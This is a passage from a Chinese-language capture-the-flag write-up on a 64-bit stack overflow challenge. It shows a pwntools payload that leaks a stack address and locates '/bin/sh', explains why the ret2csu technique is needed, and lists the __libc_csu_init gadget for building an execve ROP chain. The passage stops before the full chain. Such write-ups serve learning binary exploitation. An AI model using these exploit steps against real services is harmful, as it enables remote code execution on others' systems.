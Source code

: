 `Ubuntu20`上面看到的就是`0xdf58-0xde30=0x128=296`。

![image-20210827112608649](image-20210827112608649.png "wsl-ubuntu20")

OK，地址知道了，`execve()`的3个参数的值我们都能够确定了，所以第一步就是泄露'buf'的地址。

```python
payload1 = b'a'*0x10 + p64(vuln_addr)
io.sendline(payload1)

io.recv(0x20)

stack_addr = u64(io.recv(8))
binsh_addr = stack_addr - 0x118
```

上面的`payload1`发完之后，又进入了`vuln()`。接下来的就是通过第二个payload想办法构造ROP链来实现控制寄存器与函数跳转的过程，这又是这题的一个难点（因为我做这题之前不知道ret2csu:no_mouth:）。最简单的思路那肯定是用ROPgadget找到能够pop三个寄存器、然后ret的gadget。但是ROPgadget只能找到`pop rdi`和`pop rsi`的gadget（为什么`pop rsi; pop r15; ret`这条指令从中间开始取就是`pop rdi; ret`？这是指令设计的原因吗？），还差一个，所以这种方法行不通。

![image-20210827152113322](image-20210827152113322.png "'pop rdx' 找不到")

因此，我们得用一种新的ret方式，`ret2csu`，就是利用`_libc_csu_init()`的`pop`和`mov`两个gadget来实现控制寄存器的操作，一般适用于64位的题目。`ret2csu`的参考资料网上都有，感觉[这篇](http://www.sec4.fun/2020/05/14/csu/)写的挺清晰的。

两段gadget为

```assembly
//mov
.text:0000000000400580 loc_400580:                             ; CODE XREF: __libc_csu_init+54↓j
.text:0000000000400580                 mov     rdx, r13
.text:0000000000400583                 mov     rsi, r14
.text:0000000000400586                 mov     edi, r15d
.text:0000000000400589                 call    ds:(__frame_dummy_init_array_entry - 600E10h)[r12+rbx*8]
.text:000000000040058D                 add     rbx, 1
.text:0000000000400591                 cmp     rbx, rbp
.text:0000000000400594                 jnz     short loc_400580
```
